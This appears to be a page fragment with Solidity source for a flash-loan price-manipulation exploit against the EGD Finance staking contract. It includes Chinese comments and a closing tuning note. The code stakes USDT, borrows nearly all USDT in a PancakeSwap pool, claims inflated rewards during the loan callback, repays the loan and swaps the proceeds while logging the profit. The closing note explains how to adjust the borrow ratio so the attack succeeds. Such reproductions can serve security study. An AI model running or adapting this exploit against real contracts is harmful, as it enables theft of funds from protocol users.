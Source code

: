 ```solidity

        //将获得的egd换成usdt
        console2.log(
            "i will apporve all edg coin to another contract:",
            IERC20(egd).balanceOf(address(this))
        );
        IERC20(egd).approve(
            address(egd2usdt),
            IERC20(egd).balanceOf(address(this))
        );
        
        egd2usdt.swap2usdt();

        console.log(
            "earned usdt:",
            (IERC20(usdt).balanceOf(address(this)) - balanceBefore) / 1 ether
        );
    }

    function stake() public {
        egd_finance.bond(address(0x85cbfaBD709c744C84A36BA47145396d724EE751));
        IERC20(usdt).approve(address(egd_finance), 100 ether);
        egd_finance.stake(100 ether);
    }

    //贷款的回调函数
    function pancakeCall(
        address,
        uint256,
        uint256 count1,
        bytes calldata
    ) public {
        //在价格不合理的时候领取质押奖励
        egd_finance.claimAllReward();

        //归还贷款本金 + 5%手续费
        uint256 fee = (count1 * 500_000_000) / 10_000_000_000;
        bool success = IERC20(usdt).transfer(
            address(EGD_USDT_LPPool),
            (count1 + fee)
        );

        require(success);
    }
}

```

> 注意: 
>
> ```solidity
> //贷款（价格操纵）
>         uint256 borrowUSDT = (IERC20(usdt).balanceOf(address(EGD_USDT_LPPool)) *
>             99997600) / 100000000;
> ```
>
> 在到底借款多少(这里的99.76%)需要微调, 防止最后获取的EDG的数量超过池子中的EDG总量而导致转账失败.
